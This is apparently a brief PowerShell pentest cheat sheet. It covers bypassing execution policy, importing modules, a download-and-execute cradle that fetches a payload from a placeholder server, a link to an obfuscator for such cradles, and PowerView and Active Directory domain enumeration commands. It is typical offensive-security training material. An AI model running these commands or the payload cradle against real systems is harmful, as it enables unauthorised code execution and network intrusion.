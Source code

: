 ## BASICS:  

**Check Execution Policy**:  
1. Get-ExecutionPolicy  

**Bypass execution policy**:  
1. powershell -executionpolicy bypass .\script.ps1  
2. powershell -ep bypass  
3. powershell -c <cmd>  
4. powershell -enc  
  
**Import Modules**:  
1. . .\script.ps1  
2. Import-Module <path to script>  

**List Available modules**:  
1. Get-Module -ListAvailable  

** All commands in the module**:  
1. Get-Command -Module <module name>  
  
## COMMAND EXECUTION:  
**IEX**:  (**!= OPSEC**)
1. iex (New-Object Net.webClient).DownloadString('http://server/payload.ps1')  

**IEX Obfuscator**: https://github.com/danielbohannon/Invoke-CradleCrafter.git  
  
## DOMAIN ENUMERATION (POWERVIEW):  
**Get the current domain**:  
1. Get-NetDomain  
2. Get-NetDomain -Domain \<domain name\>  

**Get the current domain SID**:  
1. Get-DomainSID  
 

## DOMAIN ENUMERATION (ACTIVE DIRECTORY TOOLS):  
1. Get-ADDomain  
2. Get-ADDomain -Identity \<domain name\>  
  

  
